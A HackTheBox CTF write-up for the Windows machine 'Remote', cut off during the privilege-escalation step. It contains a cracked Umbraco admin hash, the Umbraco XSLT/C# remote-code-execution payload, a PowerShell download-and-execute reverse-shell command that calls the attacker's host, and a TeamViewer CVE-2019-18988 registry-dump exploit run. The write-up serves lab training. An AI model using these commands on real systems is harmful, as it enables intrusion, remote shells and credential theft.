





Remote - HackTheBox
Estimated read time: 16 minutes
Introduction
In this CTF, we are going to be exploiting an Windows system. Through a well done recon, we will be able to find disclosed credentials, get a reverse shell and then escalate our privileges inside the machine. You can access this machine here.
Let’s take a look at it!
Challenge description
The challenge description is:
Machine Info
Remote is an easy difficulty Windows machine that features an Umbraco CMS installation. Credentials are found in a world-readable NFS share. Using these, an authenticated Umbraco CMS exploit is leveraged to gain a foothold. A vulnerable TeamViewer version is identified, from which we can gain a password. This password has been reused with the local administrator account. Using
psexecwith these credentials returns a SYSTEM shell.
The challenge basically gave us all routes to do a good research and thorough recon. We need to find the credentials to log into the Umbraco CMS, where we will have an exploit (probably a CVE) that should give us a shell. From there, we exploit another CVE, but now for TeamViewer, to get the aministrator password. Finally, we get the SYSTEM shell using psexec from impacket.
Approach mindset
Let’s separate this into:
- Reconnaissance
- Getting foothold
- Escalating privileges
- Flags
But first, let’s do our own recon as our step 1.
Step 1 - Reconnaissance
The first thing we should do, is run nmap to see what services and ports are open. We shall start with a simple nmap:
kaizen@celestial /tmp/htb/ $ nmap -p- -T4 --min-rate 1000 -oN ports.nmap -A 10.129.229.68
# Nmap 7.94 scan initiated Sat Jan 6 10:36:32 2024 as: nmap -p- -T4 --min-rate 1000 -oN ports.nmap -A 10.129.229.68
Nmap scan report for 10.129.229.68
Host is up (0.29s latency).
Not shown: 65519 closed tcp ports (reset)
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp open rpcbind?
| rpcinfo:
| program version port/proto service
| 100003 2,3 2049/udp nfs
| 100003 2,3 2049/udp6 nfs
| 100003 2,3,4 2049/tcp nfs
| 100003 2,3,4 2049/tcp6 nfs
| 100005 1,2,3 2049/tcp mountd
| 100005 1,2,3 2049/tcp6 mountd
| 100005 1,2,3 2049/udp mountd
|_ 100005 1,2,3 2049/udp6 mountd
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
2049/tcp open mountd 1-3 (RPC #100005)
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49678/tcp open msrpc Microsoft Windows RPC
49679/tcp open msrpc Microsoft Windows RPC
49680/tcp open msrpc Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=1/6%OT=21%CT=1%CU=34700%PV=Y%DS=2%DC=T%G=Y%TM=65992EB7
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S%TS=U)
OS:SEQ(SP=FB%GCD=1%ISR=10E%TI=I%CI=RD%II=I%SS=S%TS=U)OPS(O1=M53ANW8NNS%O2=M
OS:53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF%
OS:W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53AN
OS:W8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=
OS:0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T
OS:4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2024-01-06T13:40:44
|_ start_date: N/A
|_clock-skew: 3h01m32s
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
TRACEROUTE (using port 587/tcp)
HOP RTT ADDRESS
1 258.93 ms 10.10.16.1
2 128.65 ms 10.129.229.68
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 6 10:43:03 2024 -- 1 IP address (1 host up) scanned in 390.87 seconds
From this, we can see some interesting information. Let’s address each one of them.
Port 21
Nmap showed us that FTP port 21 is open and anonymous login is enabled. Let’s take a look at it:
kaizen@celestial ~/CTFs/htb/machines/Remote $ ftp 10.129.229.68
Connected to 10.129.229.68.
220 Microsoft FTP Service
Name (10.129.229.68:kaizen): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> pwd
257 "/" is current directory.
As we can see, there is nothing in the FTP filesystem.
Port 80
On port 80, we have the web service.

Upon some clicks here and there, we end up at the login page:

From the machine description, we need to login into Umbraco CMS in order to exploit the vulnerability, so we are stuck here. Let’s move to the next interesting ports.
Ports 139, 445
These are related to SMB. I tried to enumerate these manually, but with not success. It seems it is for authenticated users only. Let’s move to the NFS port.
Port 2049
According to the machine description, the credentials to the Umbraco CMS lie somewhere in the NFS share. Let’s use showmount to list available public shares:
(.pyvenv) kaizen@celestial /tmp/htb $ showmount -e 10.129.229.68
Export list for 10.129.229.68:
/site_backups (everyone)
So we are able to connect to /site_backups share. From its name, it seems to be the backup files that makes the website up running. To connect, we need to create a mount point first with mkdir -p /tmp/mnt for example. Using HackTricks, we find the command to connect to the NFS share:
(.pyvenv) kaizen@celestial /tmp/htb $ sudo mount -t nfs -o vers=3,nolock $IP:/site_backups /tmp/mnt/
(.pyvenv) kaizen@celestial /tmp/htb $ cd /tmp/mnt
(.pyvenv) kaizen@celestial /tmp/mnt $ ls
App_Browsers App_Plugins bin css Global.asax scripts Umbraco_Client Web.config
App_Data aspnet_client Config default.aspx Media Umbraco Views
Upon a quick research of where Umbraco stores passwords, we find this stackoverflow post. We see that it is inside App_Data/Umbraco.sdf file:
(.pyvenv) kaizen@celestial /tmp/mnt $ find . -name Umbraco.sdf -type f
./App_Data/Umbraco.sdf
If we try to cat it, we will see that it seems like a binary file: unreadable. Let’s try to grep for password, passwordhash and hash. The last search yields:

Showing the password hash is b8be16afba8c314ad33d812f22a04991b90e2aaa and uses SHA1 hash. We can also see that the admin’s email is admin@htb.local.
We can use John The Ripper to crack this hash:
(.pyvenv) kaizen@celestial /tmp/htb $ john --format:RAW-SHA1 --wordlist:/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
No password hashes left to crack (see FAQ)
(.pyvenv) kaizen@celestial /tmp/htb $ john --show hash.txt
?:baconandcheese
1 password hash cracked, 0 left
Back to website…
Now that we have the credentials admin@htb.local:baconandcheese, let’s try and log in:

And we are in the website! Note that the Umbraco version used is 7.12.4. Now, it’s time to find an exploit for this online. A quick Google search umbraco 7.12.4 exploit leads to this exploit. From the code, it seems to making a POST request to the /umbraco/backoffice/UmbracoApi/Authentication/PostLogin endpoint with this payload:
payload = """\
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>\
""" % (args.arguments, args.command)
From what I understood, this payload appears to be an XML file that uses XSLT with embedded C# code. XSLT is a language used for transforming XML documents into other formats. The payload is structured to not only perform a transformation but also execute C# code within the context of an XSLT processor that supports the msxsl:script extension.
The embedded C# code here is used to run arbitrary code passed by the -c and -a switches. The exploit has a line that says:
#usage python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
Let’s test it out!
(.pyvenv) kaizen@celestial /tmp/htb $ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.129.14.142 -c ipconfig
Windows IP Configuration
Ethernet adapter Ethernet0 2:
Connection-specific DNS Suffix . : .htb
IPv6 Address. . . . . . . . . . . : dead:beef::8a
IPv6 Address. . . . . . . . . . . : dead:beef::d5a:847:7d7c:ae55
Link-local IPv6 Address . . . . . : fe80::d5a:847:7d7c:ae55%12
IPv4 Address. . . . . . . . . . . : 10.129.14.142
Subnet Mask . . . . . . . . . . . : 255.255.0.0
Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:2bb5%12
10.129.0.1
Amazing! We are able to execute arbitrary code server-side. Now, we must think of a way to spawn a reverse shell.
Step 2 - Getting foothold
Upon a long search, I ended up with this powershell script from Nishang. As we can see, we can spawn a reverse shell if WIndows runs the following command:
powershell -c iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
So, one way we could try to access the reverse shell is by running the exploit as this:
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.14.142' -c 'cmd.exe' -a "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.14/Invoke-PowerShellTcp.ps1');;Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.14 -Port 4444"
For that to work, we need to run a Python server where our Invoke-PowerShellTcp.ps1 script is, and also run nc -lnvp 4444 to receive the shell.
kaizen@celestial /tmp/htb $ sudo python3 -m http.server 80
[sudo] password for root:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
then, in another tab:
kaizen@celestial /tmp/htb $ nc -lnvp 4444
and finally, we run the exploit:
(.pyvenv) kaizen@celestial /tmp/htb $ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.14.142' -c 'cmd.exe' -a "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.14/Invoke-PowerShellTcp.ps1');;Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.14 -Port 4444"
In our netcat, we got a connection:
kaizen@celestial /tmp/htb $ nc -lnvp 4444
Connection from 10.129.14.142:49693
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
As we can see, we are not root, but we have access to the system. Let’s now think of a way of escalate privileges.
Step 3 - Escalating privileges
We first need to know where TeamViewer is running. For that, we can run:
PS C:\windows\system32\inetsrv> tasklist /svc
[...snip...]
svchost.exe 2200 W3SVC, WAS
vmtoolsd.exe 2208 VMTools
TeamViewer_Service.exe 2216 TeamViewer7
svchost.exe 2236 W32Time
MsMpEng.exe 2244 WinDefend
[...snip...]
Now, we take a look on CVEs regarding TeamViewer7. After searching through lots of different CVEs, it seems that it is this one. Summarizing it, we have:
TeamViewer Desktop through 14.7.1965 allows a bypass of remote-login access control because the same key is used for different customers’ installations. It used a shared AES key for all installations since at least as far back as v7.0.43148, and used it for at least OptionsPasswordAES in the current version of the product. If an attacker were to know this key, they could decrypt protect information stored in the registry or configuration files of TeamViewer. With versions before v9.x , this allowed for attackers to decrypt the Unattended Access password to the system (which allows for remote login to the system as well as headless file browsing). The latest version still uses the same key for OptionPasswordAES but appears to have changed how the Unattended Access password is stored. While in most cases an attacker requires an existing session on a system, if the registry/configuration keys were stored off of the machine (such as in a file share or online), an attacker could then decrypt the required password to login to the system.
Basically, TeamViewer7 uses a weak encryption algorithm that can be cracked. Upon some more research, I’ve found this GitHub repo contaning the exploit. Somehow, we need to run it inside the CTF machine. To do that, save the exploit on our local machine, pop a Python server. On the host machine, let’s cd C:\windows\temp\ and then:
PS C:\windows\temp> Invoke-WebRequest -Uri 'http://10.10.16.14/exploit.bat' -OutFile 'C:\windows\temp\exploit.bat'
PS C:\windows\temp> ls exploit.bat
Directory: C:\windows\temp
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 1/6/2024 11:56 PM 1148 exploit.bat
To run the exploit, we type in .\exploit.bat:
PS C:\windows\temp> .\exploit.bat
C:\windows\temp>REM # CVE-2019-18988
C:\windows\temp>REM # Teamviewer Local Privesc
C:\windows\temp>REM https://community.teamviewer.com/t5/Announcements/Specification-on-CVE-2019-18988/td-p/82264
C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v Version
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
Version REG_SZ 7.0.43148
C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
StartMenuGroup REG_SZ TeamViewer 7
InstallationDate REG_SZ 2020-02-20
InstallationDirectory REG_SZ C:\Program Files (x86)\TeamViewer\Version7
Always_Online REG_DWORD 0x1
Security_ActivateDirectIn REG_DWORD 0x0
Version REG_SZ 7.0.43148
ClientIC REG_DWORD 0x11f25831
PK REG_BINARY BFAD2AEDB6C89AE0A0FD0501A0C5B9A5C0D957A4CC57C1884C84B6873EA03C069CF06195829821E28DFC2AAD372665339488DD1A8C85CDA8B19D0A5A2958D86476D82CA0F2128395673BA5A39F2B875B060D4D52BE75DB2B6C91EDB28E90DF7F2F3FBE6D95A07488AE934CC01DB8311176AEC7AC367AB4332ABD048DBFC2EF5E9ECC1333FC5F5B9E2A13D4F22E90EE509E5D7AF4935B8538BE4A606AB06FE8CC657930A24A71D1E30AE2188E0E0214C8F58CD2D5B43A52549F0730376DD3AE1DB66D1E0EBB0CF1CB0AA7F133148D1B5459C95A24DDEE43A76623759017F21A1BC8AFCD1F56FD0CABB340C9B99EE3828577371B7ADA9A8F967A32ADF6CF062B00026C66F8061D5CFF89A53EAE510620BC822BC6CC615D4DE093BC0CA8F5785131B75010EE5F9B6C228E650CA89697D07E51DBA40BF6FC3B2F2E30BF6F1C01F1BC2386FA226FFFA2BE25AE33FA16A2699A1124D9133F18B50F4DB6EDA2D23C2B949D6D2995229BC03507A62FCDAD55741B29084BD9B176CFAEDAAA9D48CBAF2C192A0875EC748478E51156CCDD143152125AE7D05177083F406703ED44DCACCD48400DD88A568520930BED69FCD672B15CD3646F8621BBC35391EAADBEDD04758EE8FC887BACE6D8B59F61A5783D884DBE362E2AC6EAC0671B6B5116345043257C537D27A8346530F8B7F5E0EBACE9B840E716197D4A0C3D68CFD2126E8245B01E62B4CE597AA3E2074C8AB1A4583B04DBB13F13EB54E64B850742A8E3E8C2FAC0B9B0CF28D71DD41F67C773A19D7B1A2D0A257A4D42FC6214AB870710D5E841CBAFCD05EF13B372F36BF7601F55D98ED054ED0F321AEBA5F91D390FF0E8E5815E6272BA4ABB3C85CF4A8B07851903F73317C0BC77FA12A194BB75999319222516
SK REG_BINARY F82398387864348BAD0DBB41812782B1C0ABB9DAEEF15BC5C3609B2C5652BED7A9A07EA41B3E7CB583A107D39AFFF5E06DF1A06649C07DF4F65BD89DE84289D0F2CBF6B8E92E7B2901782BE8A039F2903552C98437E47E16F75F99C07750AEED8CFC7CD859AE94EC6233B662526D977FFB95DD5EB32D88A4B8B90EC1F8D118A7C6D28F6B5691EB4F9F6E07B6FE306292377ACE83B14BF815C186B7B74FFF9469CA712C13F221460AC6F3A7C5A89FD7C79FF306CEEBEF6DE06D6301D5FD9AB797D08862B9B7D75B38FB34EF82C77C8ADC378B65D9ED77B42C1F4CB1B11E7E7FB2D78180F40C96C1328970DA0E90CDEF3D4B79E08430E546228C000996D846A8489F61FE07B9A71E7FB3C3F811BB68FDDF829A7C0535BA130F04D9C7C09B621F4F48CD85EA97EF3D79A88257D0283BF2B78C5B3D4BBA4307D2F38D3A4D56A2706EDAB80A7CE20E21099E27481C847B49F8E91E53F83356323DDB09E97F45C6D103CF04693106F63AD8A58C004FC69EF8C506C553149D038191781E539A9E4E830579BCB4AD551385D1C9E4126569DD96AE6F97A81420919EE15CF125C1216C71A2263D1BE468E4B07418DE874F9E801DA2054AD64BE1947BE9580D7F0E3C138EE554A9749C4D0B3725904A95AEBD9DACCB6E0C568BFA25EE5649C31551F268B1F2EC039173B7912D6D58AA47D01D9E1B95E3427836A14F71F26E350B908889A95120195CC4FD68E7140AA8BB20E211D15C0963110878AAB530590EE68BF68B42D8EEEB2AE3B8DEC0558032CFE22D692FF5937E1A02C1250D507BDE0F51A546FE98FCED1E7F9DBA3281F1A298D66359C7571D29B24D1456C8074BA570D4D0BA2C3696A8A9547125FFD10FBF662E597A014E0772948F6C5F9F7D0179656EAC2F0C7F
LastMACUsed REG_MULTI_SZ \0005056B0A059
MIDInitiativeGUID REG_SZ {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion REG_DWORD 0x1
ClientID REG_DWORD 0x6972e4aa
CUse REG_DWORD 0x1
LastUpdateCheck REG_DWORD 0x64c273d8
UsageEnvironmentBackup REG_DWORD 0x1
SecurityPasswordAES REG_BINARY FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
MultiPwdMgmtIDs REG_MULTI_SZ admin
MultiPwdMgmtPWDs REG_MULTI_SZ 357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
Security_PasswordStrength REG_DWORD 0x3
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\AccessControl
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\DefaultSettings
C:\windows\temp>reg query HKLM\SOFTWARE\TeamViewer\Temp /v SecurityPasswordExported
C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
StartMenuGroup REG_SZ TeamViewer 7
InstallationDate REG_SZ 2020-02-20
InstallationDirectory REG_SZ C:\Program Files (x86)\TeamViewer\Version7
Always_Online REG_DWORD 0x1
Security_ActivateDirectIn REG_DWORD 0x0
Version REG_SZ 7.0.43148
ClientIC REG_DWORD 0x11f25831
PK REG_BINARY BFAD2AEDB6C89AE0A0FD0501A0C5B9A5C0D957A4CC57C1884C84B6873EA03C069CF06195829821E28DFC2AAD372665339488DD1A8C85CDA8B19D0A5A2958D86476D82CA0F2128395673BA5A39F2B875B060D4D52BE75DB2B6C91EDB28E90DF7F2F3FBE6D95A07488AE934CC01DB8311176AEC7AC367AB4332ABD048DBFC2EF5E9ECC1333FC5F5B9E2A13D4F22E90EE509E5D7AF4935B8538BE4A606AB06FE8CC657930A24A71D1E30AE2188E0E0214C8F58CD2D5B43A52549F0730376DD3AE1DB66D1E0EBB0CF1CB0AA7F133148D1B5459C95A24DDEE43A76623759017F21A1BC8AFCD1F56FD0CABB340C9B99EE3828577371B7ADA9A8F967A32ADF6CF062B00026C66F8061D5CFF89A53EAE510620BC822BC6CC615D4DE093BC0CA8F5785131B75010EE5F9B6C228E650CA89697D07E51DBA40BF6FC3B2F2E30BF6F1C01F1BC2386FA226FFFA2BE25AE33FA16A2699A1124D9133F18B50F4DB6EDA2D23C2B949D6D2995229BC03507A62FCDAD55741B29084BD9B176CFAEDAAA9D48CBAF2C192A0875EC748478E51156CCDD143152125AE7D05177083F406703ED44DCACCD48400DD88A568520930BED69FCD672B15CD3646F8621BBC35391EAADBEDD04758EE8FC887BACE6D8B59F61A5783D884DBE362E2AC6EAC0671B6B5116345043257C537D27A8346530F8B7F5E0EBACE9B840E716197D4A0C3D68CFD2126E8245B01E62B4CE597AA3E2074C8AB1A4583B04DBB13F13EB54E64B850742A8E3E8C2FAC0B9B0CF28D71DD41F67C773A19D7B1A2D0A257A4D42FC6214AB870710D5E841CBAFCD05EF13B372F36BF7601F55D98ED054ED0F321AEBA5F91D390FF0E8E5815E6272BA4ABB3C85CF4A8B07851903F73317C0BC77FA12A194BB75999319222516
SK REG_BINARY F82398387864348BAD0DBB41812782B1C0ABB9DAEEF15BC5C3609B2C5652BED7A9A07EA41B3E7CB583A107D39AFFF5E06DF1A06649C07DF4F65BD89DE84289D0F2CBF6B8E92E7B2901782BE8A039F2903552C98437E47E16F75F99C07750AEED8CFC7CD859AE94EC6233B662526D977FFB95DD5EB32D88A4B8B90EC1F8D118A7C6D28F6B5691EB4F9F6E07B6FE306292377ACE83B14BF815C186B7B74FFF9469CA712C13F221460AC6F3A7C5A89FD7C79FF306CEEBEF6DE06D6301D5FD9AB797D08862B9B7D75B38FB34EF82C77C8ADC378B65D9ED77B42C1F4CB1B11E7E7FB2D78180F40C96C1328970DA0E90CDEF3D4B79E08430E546228C000996D846A8489F61FE07B9A71E7FB3C3F811BB68FDDF829A7C0535BA130F04D9C7C09B621F4F48CD85EA97EF3D79A88257D0283BF2B78C5B3D4BBA4307D2F38D3A4D56A2706EDAB80A7CE20E21099E27481C847B49F8E91E53F83356323DDB09E97F45C6D103CF04693106F63AD8A58C004FC69EF8C506C553149D038191781E539A9E4E830579BCB4AD551385D1C9E4126569DD96AE6F97A81420919EE15CF125C1216C71A2263D1BE468E4B07418DE874F9E801DA2054AD64BE1947BE9580D7F0E3C138EE554A9749C4D0B3725904A95AEBD9DACCB6E0C568BFA25EE5649C31551F268B1F2EC039173B7912D6D58AA47D01D9E1B95E3427836A14F71F26E350B908889A95120195CC4FD68E7140AA8BB20E211D15C0963110878AAB530590EE68BF68B42D8EEEB2AE3B8DEC0558032CFE22D692FF5937E1A02C1250D507BDE0F51A546FE98FCED1E7F9DBA3281F1A298D66359C7571D29B24D1456C8074BA570D4D0BA2C3696A8A9547125FFD10FBF662E597A014E0772948F6C5F9F7D0179656EAC2F0C7F
LastMACUsed REG_MULTI_SZ \0005056B0A059
MIDInitiativeGUID REG_SZ {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion REG_DWORD 0x1
ClientID REG_DWORD 0x6972e4aa
CUse REG_DWORD 0x1
